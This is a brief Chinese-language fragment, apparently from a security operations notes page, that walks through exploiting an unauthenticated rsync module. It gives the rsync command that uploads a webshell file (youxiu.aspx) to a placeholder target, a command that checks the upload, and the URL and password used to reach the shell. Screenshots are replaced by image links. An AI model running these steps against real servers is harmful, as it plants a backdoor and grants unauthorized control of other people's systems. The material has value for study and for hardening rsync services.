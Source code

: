 上传webshell: \# rsync -av /root/Desktop/youxiu.aspx
xx.xx.xx.xx::Etest

![](\assets\img\安全运维\file_html_7ba40be2f34f1334.png)

确认是否成功：\# rsync -v xx.xx.xx.xx::Etest

![](\assets\img\安全运维\file_html_ac23219ff525104.png)

获取wenshell: http://www.xx.cn/youxiu.aspx admin

![](\assets\img\安全运维\file_html_c97ac1aa5603d31e.png)
